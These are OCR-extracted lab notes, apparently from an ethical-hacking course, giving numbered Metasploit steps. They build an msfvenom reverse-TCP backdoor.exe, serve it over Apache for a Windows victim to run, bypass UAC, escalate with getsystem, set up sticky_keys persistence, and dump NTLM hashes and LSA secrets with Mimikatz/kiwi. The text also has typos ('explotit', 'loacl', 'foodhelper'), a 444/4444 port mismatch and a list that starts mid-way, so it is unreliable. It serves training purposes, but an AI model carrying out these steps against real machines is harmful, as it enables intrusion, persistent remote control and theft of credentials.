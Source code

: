 19. set session 1
20. show options
21. set TARGET 0
22. explotit
23. getsystem -t 1
24. getuid
25. background
26. use post/windows/manage/sticky_keys
27. session i*
28. session 2
29. exploit
**Windows**
12.  In **Web Browser** visit **http://10.10.11.10/share**
13. Click & Download **backdoor.exe** 
14. Open **backdoor.exe**

### Task 6: Escalate Privileges to Gather Hashdump using Mimikatz
---
**Parrot**
1. sudo su
2. cd
3. msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.11.10 lport=444 -f exe > /home/attacker/Desktop/backdoor.exe
4. cp /home/attack/Desktop/backdoor.exe /var/www/html/share/
5. service apache2 start
6. msfconsole
7. use exploit/multi/handler
8. set payload windows/meterpreter/reverse_tcp
9. set lhost 10.10.11.10
10. set lport 4444
11. run
15. background
16. use exploit/windows/loacl/bypassuac_foodhelper
17. set session 1
18. show options
19. set lhost 10.10.11.10
20. set lport 4444
21. set target 0
22. exploit
23. getsystem -t 1
24. getuid
25. ==load kiwi==
26. ==help kiwi==
27. ==lsa_dump_sam  || Display **NTLM** Hash of all users==
28. ==lsa_dump_secrets || Diaplay **LSA Secrets** Login hashes==
**Windows**
12.  In **Web Browser** visit **http://10.10.11.10/share**
13. Click & Download **backdoor.exe** 
14. Open **backdoor.exe**
